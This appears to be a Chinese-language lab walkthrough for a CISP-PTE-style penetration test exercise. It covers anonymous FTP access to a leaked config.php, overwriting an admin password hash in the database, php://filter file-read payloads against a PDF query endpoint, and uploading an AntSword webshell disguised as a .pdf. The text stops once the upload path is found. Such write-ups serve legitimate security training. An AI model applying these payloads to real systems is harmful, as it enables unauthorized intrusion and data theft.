 发现ftp的21号端口，允许匿名anonymous

发现3306端口，是mysql

发现6721也是一个网站

80端口，测试什么语言写的时候
index.php是一个登录界面，index.html是一个糊弄的

测试一下21端口的ftp
ftp 目标ip
使用anonymous登录
发现pub文件夹
dir 发现有个config.php，get下来

在config.php中发现数据库信息

navicat连接

发现管理员信息，密码是md5的，自己md5一个123456
修改目标数据库的超级管理员密码

之后可以登录

有个文件上传，怎么测试都是失败，因为只能上传pdf结尾的文件
pdf无法被当作php解析

访问6721端口的站
/api/query_pdf.php
POST
archive=php://filter/read=convert.base64-encode/resource=query_pdf.php

访问主站ip/phpinfo.php
发现暴露了主站在Linux系统中的绝对路径
DOCUMENT_ROOT  /var/www/html/PIzABXDg/ 

也就是说主站的index.php
/var/www/html/PIzABXDg/index.php

/api/query_pdf.php
POST
archive=php://filter/read=convert.base64-encode/resource=/var/www/html/PIzABXDg/index.php

对index.php进行代码审计

通过代码审计，发现model/order_upload.php文件

/api/query_pdf.php
POST
archive=php://filter/read=convert.base64-encode/resource=/var/www/html/PIzABXDg/model/order_upload.php

对order_upload.php进行代码审计
发现上传位置为CISP-PTE-1413/
并且文件上传必须为pdf，无法绕过

打开蚁剑
使用自带的一句话木马，改成pdf，进行上传
发现上传位置在
目标ip/CISP-PTE-1413/zj.pdf
